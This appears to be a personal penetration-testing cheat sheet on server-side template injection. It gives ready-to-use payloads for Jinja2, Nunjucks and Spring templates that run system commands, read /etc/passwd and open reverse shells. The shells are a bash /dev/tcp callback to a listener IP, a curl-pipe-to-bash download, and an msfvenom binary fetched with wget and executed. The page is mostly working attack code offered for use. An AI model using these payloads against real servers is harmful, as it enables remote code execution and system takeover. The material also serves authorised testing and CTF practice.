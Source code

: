 ## Definition
A __SSTI__ is an attack where the hacker is able to gain remote code execution in the victim's system just by using native template syntax to inject a malicious payload into a template, which is then executed server-side

## When to try this attack
Some occasions could be:
- When the server has [Python in Servers](</General Info/Tecnologias Web/Python in Servers.md>) installed
- When the webserver is [Flask](</General Info/Tecnologias Web/Flask.md>)

## Ways to exploit different templates
Jinja2:
- Allows remote code execution: `{{ self._TemplateReference__context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() }}`
- In order to send a reverse shell you can run: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"').read() }}`
Nunjucks (NodeJS):
- The way to exploit and get RCE is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`
- For the reverse-shell is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl {YOUR-IP}:{PYTHON-PORT}/{REV-SHELL-FILE} | bash')")()}}` - Meanwhile, you've to be serving a basic reverse-shell bash TCP in your python server, this can be done running: python -m http.server 80 - in the folder that has the file
SpringFramework (Java):
- Way to exploit: `${T(java.lang.Runtime).getRuntime().exec('{BASH-COMMAND}')}` or `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}`
- For a reverse-shell: `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}` or, another useful way could be:
	- Create a reverse-shell with msfvenom `msfvenom -p linux/x64/shell_reverse_tcp LHOST={IP} LPORT=443 -f elf > r.elf`
	- Start a python http server with `python -m http.server 80`
	- Download the file via SSTI `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://{IP}/r.elf")}`
	- Give the file execute permisson ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}``
	- Execute the file while listening in the port 443 ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}`` meanwhile `nc -lvnp 443`
